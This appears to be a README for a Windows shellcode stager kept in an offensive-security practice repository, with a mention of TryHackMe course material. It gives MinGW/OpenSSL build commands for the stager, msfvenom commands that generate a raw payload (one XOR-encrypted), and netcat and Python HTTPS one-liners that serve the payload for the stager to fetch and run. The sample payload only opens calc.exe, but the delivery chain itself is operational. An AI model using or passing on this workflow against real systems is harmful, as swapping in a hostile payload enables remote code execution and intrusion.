 Get OpenSSL (no light, 32 + 64) : https://slproweb.com/products/Win32OpenSSL.html

Get Mingw (POSIX, 32 + 64): https://winlibs.com/


//32 bits
$env:C_INCLUDE_PATH = 'C:\OpenSSL32\include'
$env:Path += ';C:\mingw32\bin;C:\OpenSSL32\bin'
gcc.exe .\stager.c -lwsock32 -L"C:/OpenSSL32/lib/VC/x86/MD" -lssl
i686-w64-mingw32-gcc stager.c -lwsock32 -lssl


//64 bits
$env:C_INCLUDE_PATH = 'C:\OpenSSL64\include'
$env:Path += ';C:\mingw64\bin;C:\OpenSSL64\bin'
gcc.exe .\stager.c -lwsock32 -L"C:/OpenSSL64/lib/VC/x64/MD" -lssl
x86_64-w64-mingw32-gcc stager.c -lwsock32 -lssl


//create payload
msfvenom -p windows/exec cmd="calc.exe" exitfunc=none/thread -f raw -o shell
msfvenom -p windows/exec cmd="calc.exe" exitfunc=none/thread --encrypt=xor --encrypt=YoloSpaceHacker -f raw -o shell


//serve payload
nc -lvnp 9000 < shell

sudo python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER);context.load_cert_chain('localhost.pem', 'localhost.key');httpd.socket=context.wrap_socket(httpd.socket,server_side=True);httpd.serve_forever()"




THM_* scripts are extracted from TryHackMe courses, not tested yet.